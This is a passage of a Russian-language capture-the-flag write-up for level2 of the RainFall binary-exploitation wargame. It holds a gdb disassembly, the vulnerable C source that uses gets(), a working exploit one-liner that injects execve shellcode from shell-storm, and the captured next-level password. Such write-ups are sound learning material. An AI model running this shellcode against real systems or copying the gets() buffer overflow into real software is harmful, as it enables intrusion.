#    0x080484f2 <+30>:    mov    0x4(%ebp),%eax
#    0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
#    0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
#    0x080484fb <+39>:    and    $0xb0000000,%eax
#    0x08048500 <+44>:    cmp    $0xb0000000,%eax
# ---Type <return> to continue, or q <return> to quit---
#    0x08048505 <+49>:    jne    0x8048527 <p+83>
#    0x08048507 <+51>:    mov    $0x8048620,%eax
#    0x0804850c <+56>:    mov    -0xc(%ebp),%edx
#    0x0804850f <+59>:    mov    %edx,0x4(%esp)
#    0x08048513 <+63>:    mov    %eax,(%esp)
#    0x08048516 <+66>:    call   0x80483a0 <printf@plt>
#    0x0804851b <+71>:    movl   $0x1,(%esp)
#    0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
#    0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
#    0x0804852a <+86>:    mov    %eax,(%esp)
#    0x0804852d <+89>:    call   0x80483f0 <puts@plt>
#    0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
#    0x08048535 <+97>:    mov    %eax,(%esp)
#    0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
#    0x0804853d <+105>:   leave  
# ---Type <return> to continue, or q <return> to quit---
#    0x0804853e <+106>:   ret    
# End of assembler dump.
```

`0x080484ed <+25>:    call   0x80483c0 <gets@plt>` p содержит gets(), в то же время содержит защиту от переполнения буфера на случай перезаписи eip регистра (адреса возврата из фукнции) и использования вредоносного кода в стеке (shell-кода, адреса другой функции для взлома) и в переменных окружения (адрес стека):
```
0x080484fb <+39>:    and    $0xb0000000,%eax           
0x08048500 <+44>:    cmp    $0xb0000000,%eax           

0x08048505 <+49>:    jne    0x8048527 <p+83>           
...                                                    
0x08048522 <+78>:    call   0x80483d0 <_exit@plt>      
```
<details> 
  <summary> В развороте, как узнать адрес стека и почему именно 0xb0000000 </summary>

`gdb level2`      <br>
`b *0x08048486`   <br>
`x/64wx $esp-20` <br>
эти три команды в дебагере выведут значения в стеке по конкретным адресам - все адреса на 0xb... начинаются, значит здесь нам не позволят вредоносный код в стеке выполнить.
</details>
<br>

Для shellcodes мне понравился сайт http://shell-storm.org/ . \
На нем есть масса полезных статей по кибербезопасности и [готовые shellcodes](http://shell-storm.org/shellcode/index.html).

<details> 
  <summary> Чтобы подобрать подходящий код, я проделала шаги, указанные в развороте: </summary>

1. Узнаю ОС:
```sh
uname -a
# ||
# \/
# Linux RainFall 3.2.0-90-generic-pae #128-Ubuntu SMP Fri Aug 14 22:16:51 UTC 2015 i686 i686 i386 GNU/Linux
```
В данном случае 32-разрядная ОС.

2. Теперь надо узнать информацию об архитектуре CPU:

```sh
lscpu
# ||
# \/
# Architecture:          i686
# CPU op-mode(s):        32-bit, 64-bit
# Byte Order:            Little Endian
# CPU(s):                1
# On-line CPU(s) list:   0
# Thread(s) per core:    1
# Core(s) per socket:    1
# Socket(s):             1
# Vendor ID:             GenuineIntel
# CPU family:            6
# Model:                 55
# Stepping:              8
# CPU MHz:               2163.246
# BogoMIPS:              4326.49
# Virtualization:        VT-x
# L1d cache:             24K
# L1i cache:             32K
# L2 cache:              1024K
```
Значит, мне нужен код для:  \
Linux 32-bit                \
Intel/x86                   \
Этот код будет содержать execve() - запуск оболочки. <br>
<br>
Я выбрала:                  \
`||`                        \
`\/`                        \
Intel x86                   \
Sauder                      \
Linux/x86 - execve() Diassembly Obfuscation Shellcode - 32 bytes by BaCkSpAcE
<br><br><br>
</details> 

```sh
# http://shell-storm.org/shellcode/files/shellcode-237.html
(echo $(python -c 'print "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1" + "\x90" * 48 + "\x08\xa0\x04\x08"'); cat) | ./level2
# ||
# \/
# h̀hh��hj
#        X1�Rh//shh/bin��RS���ᐐ�����������������������������������������
whoami
# ||
# \/
# level3
cat /home/user/level3/.pass
# ||
# \/
# 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
Уровень пройден!
```sh
su level3
# Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"
<br>
char *p(void) {
        char            buffer[64];
        unsigned int    ret;

        printf(""); fflush(stdout);
        gets(buffer);
        ret = __builtin_return_address(0);
        if((ret & 0xb0000000) == 0xb0000000) {
                printf("(%p)\n", ret);
                _exit(1);
        }
        printf("%s\n", buffer);
        return strdup(buffer);
}
<br>
int  main(int argc, char **argv) {
        p();
}
</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level2.c -o level2
</details> 

Уязвимость Use-After-Free
https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/

#
###### [вернуться к содержанию](#content)
<a name="lvl3"></a> 
# level3

#
###### [вернуться к содержанию](#content)
<a name="lvl4"></a> 
# level4

#
###### [вернуться к содержанию](#content)
<a name="lvl5"></a> 
# level5

#
###### [вернуться к содержанию](#content)
<a name="lvl6"></a> 
# level6

#
###### [вернуться к содержанию](#content)
<a name="lvl7"></a> 
# level7

#
###### [вернуться к содержанию](#content)
<a name="lvl8"></a> 
# level8

#
###### [вернуться к содержанию](#content)
<a name="lvl9"></a> 
# level9

#
###### [вернуться к содержанию](#content)
<a name="bonus0"></a> 
# bonus0

#
###### [вернуться к содержанию](#content)
<a name="bonus1"></a> 
# bonus1

#
###### [вернуться к содержанию](#content)
<a name="bonus2"></a> 
# bonus2

#
###### [вернуться к содержанию](#content)
<a name="bonus3"></a> 
# bonus3
